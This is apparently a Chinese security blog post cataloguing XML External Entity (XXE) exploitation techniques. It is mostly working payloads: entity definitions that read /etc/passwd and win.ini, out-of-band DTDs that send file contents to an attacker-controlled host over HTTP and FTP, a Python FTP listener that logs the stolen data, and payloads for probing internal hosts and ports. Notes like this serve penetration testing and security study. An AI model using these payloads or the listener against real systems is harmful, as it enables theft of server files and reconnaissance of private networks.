 ```yaml
---
typora-root-url: ../../../static
title: "XXE利用"
date: 2021-01-17T12:28:36+08:00
draft: false
categories: ["security"]
---
```


## 有回显XXE
### 引用外部实体

	<?xml version="1.0" encoding="utf-8" ?>
	<!DOCTYPE foo [
		<!ELEMENT foo ANY >
        <!ENTITY s1 SYSTEM "file:///etc/passwd" >
    ]>
	<foo>&s1;</foo>

### 引用公共实体

	<?xml version="1.0" encoding="utf-8" ?>
	<!DOCTYPE root PUBLIC "test" "file:///etc/passwd">
	<root>&test;</root>

### 引用参数实体
当文件含有特殊符号的时候，如&,<,>,",'等。使用此种方式：

payload：

	<?xml version="1.0" encoding="utf-8"?> 
	<!DOCTYPE roottag [
	<!ENTITY % start "<![CDATA[">   
	<!ENTITY % goodies SYSTEM "file:///etc/passwd">  
	<!ENTITY % end "]]>">  
	<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
	%dtd; ]> 
	
	<roottag>&all;</roottag>

evil.dtd:

	<?xml version="1.0" encoding="UTF-8"?> 
	<!ENTITY all "%start;%goodies;%end;">

## 无回显XXE
### php环境下
payload：

	<!DOCTYPE convert [ 
	<!ENTITY % remote SYSTEM "http://ip/evil.dtd">
	%remote;%int;%send;
	]>

evil.dtd:

	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///windows/win.ini">
	<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip:9999?p=%file;'>">

### Java环境下
JDK必须小于7u141或者小于8u162才可以读取没有特殊符号的文件(例如换行符号等)。

payload：

	<?xml version="1.0"?>
	<!DOCTYPE cdl [<!ENTITY % asd SYSTEM "http://ip:8000/evil.dtd">%asd;%c;]>
	<cdl>&rrr;</cdl>

evil.dtd:

	<!ENTITY % d SYSTEM "file:///C://windows/win.ini">
	<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://ip:2144/%d;'>">

开启FTP服务器的脚本如下：

	#!/usr/bin/env python3
	import socket
	import sys
	import argparse
	
	
	name = """
	Running...
	"""
	
	print(name)
	
	parser = argparse.ArgumentParser(description='An Out-of-Band XXE tool')
	parser.add_argument('port',type=int,help="Port for the FTP server to listen on (2121 / 21)")
	args = parser.parse_args()
	
	HOST = ''
	PORT = args.port
	
	welcome = b'oob-xxe\n'
	ftp_catch_all_response = b'more data please!\n'
	ftp_user_response = b'hello world!\n'
	ftp_pass_response = b'my password is also hunter2!\n'
	
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	
	def main():
	    try:
	        s.bind((HOST, PORT))
	    except socket.error as msg:
	        print('[+] ERROR: Bind failed. ')
	        sys.exit()
	
	    s.listen(10)
	    print('[+] OOB started on port: '+str(PORT))
	
	
	    conn, addr = s.accept()
	    print('[*] Connection from: '+addr[0])
	    conn.sendall(welcome)
	
	    while True:
	        data = conn.recv(1024)
	        ftp_command = data.split(b" ", 1)
	        response = {
	            'user': ftp_user_response,
	            'pass': ftp_pass_response,
	        }.get(ftp_command[0].lower(), ftp_catch_all_response)
	        conn.sendall(response)
	        line = data.decode('UTF-8')
	        line = line.replace("\n","").replace("CWD","")
	        print(line)
	        extract(line)
	    s.close()
	
	def extract(data):
	        fopen = open('./extracted.log', 'a')
	        fopen.write(data)
	        fopen.close()
	
	try:
	    main()
	except KeyboardInterrupt:
	    s.close()

## XXE内网主机和端口探测
### 内网主机探测
payload如下(使用burp的intruder修改ip)：

	<?xml version="1.0" encoding="utf-8" ?>
	<!DOCTYPE foo [
	    <!ELEMENT foo ANY >
	    <!ENTITY s1 SYSTEM "http://10.0.0.1" >
	]>
	<foo>&s1;</foo>

### 内网端口探测
payload如下（使用burp的intruder修改端口）：

	<?xml version="1.0" encoding="utf-8"?>  
	<!DOCTYPE data SYSTEM "http://127.0.0.1:515/" [  
	<!ELEMENT data (#PCDATA)>  
	]>
	<data>4</data>

## 一些其他利用方式
- `jar://` 协议文件上传。
- Dos攻击。
- 邮件钓鱼：如果内网有一台易受攻击的SMTP服务器，我们就能利用 `ftp://` 协议结合 `CRLF` 注入向其发送任意命令。


## 参考链接
- [一篇文章带你深入理解XXE](l0)

[l0]:https://xz.aliyun.com/t/3357#toc-1